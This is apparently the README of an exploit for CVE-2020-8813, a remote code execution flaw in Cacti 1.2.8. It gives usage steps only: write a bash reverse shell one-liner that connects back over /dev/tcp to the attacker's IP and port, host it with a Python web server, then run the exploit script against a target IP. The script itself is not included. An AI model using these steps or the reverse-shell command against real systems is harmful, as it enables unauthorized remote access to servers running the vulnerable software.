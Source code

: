 #CVE-2020-8813
#Version: 1.2.8
#Cacti 1.2.8 RCE

Create a shell executable

    eg.: echo -ne 'bash -i >&/dev/tcp/LocalIP/PORT 0>&1' >shell

Start a Web-Server with your reverse shell inside webroot

    eg.: python3 -m http.server

Fire the exploit

    Usage: python3 expoit.py <TargetIP> <LocalIP> <ShellName>

